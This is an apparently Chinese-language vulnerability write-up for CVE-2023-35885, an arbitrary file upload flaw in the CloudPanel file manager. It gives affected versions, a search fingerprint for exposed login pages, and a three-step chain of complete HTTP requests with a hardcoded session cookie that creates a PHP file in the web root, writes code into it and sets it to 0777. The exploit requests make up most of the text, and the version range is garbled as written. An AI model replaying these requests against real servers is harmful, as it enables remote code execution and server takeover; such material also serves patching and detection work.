 # cloudpanel makefile 任意文件上传漏洞 CVE-2023-35885

## 漏洞描述

cloudpanel makefile 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>cloudpanel 2.0.0 >= 2.3.0   </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="CloudPanel | Log In"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697860876206-ea20431d-1864-4b9d-afd4-640872cfbbb0.png)

验证POC

```php
POST /file-manager/backend/makefile HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 54
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/&name=Test.php
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697860916548-336c02a9-2244-4ac3-919f-5e719f132953.png)

```php
POST /file-manager/backend/text HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 289
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&content=<?php phpinfo()?>
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697861000240-9a15866a-a714-445e-b742-1f9838ecb848.png)

```php
POST /file-manager/backend/permissions HTTP/1.1
Host: 
Accept: */*
Connection: keep-alive
Cookie: clp-fm=ZGVmNTAyMDA5NjM3ZTZiYTlmNzQ3MDU1YTNhZGVlM2IxODczMTBjYjYwOTFiNDRmNmZjYTFjZjRiNmFhMTEwOTRiMmNiNTA5Zjc2YjY1ZGRkOWIwMGZmNjE2YWUzOTFiOTM5MDg0Y2U5YzBlMmM5ZTJlNGI3ZTM3NzQ1OTk2MjAxNTliOWUxYjE1ZWVlODYxNGVmOWVkZDVjMjFmYWZkYjczZDFhNGZhOGMyMmQyMmViMGM2YTkwYTE4ZDEzOTdkMmI4YWMwZmI0YWYyNTRmMjUzOTJlNzNiMGM4OWJmZTU0ZDA1NTIwYTJmMjI0MmM2NmQyOWJjNzJlZGExODA0NzBkZmU3YTRkYTM=
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

id=/htdocs/app/files/public/Test.php&permissions=0777
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697861047684-cd070836-92a3-4b8d-9670-1a71bca48a66-20231108130020918.png)

```php
/Test.php
```
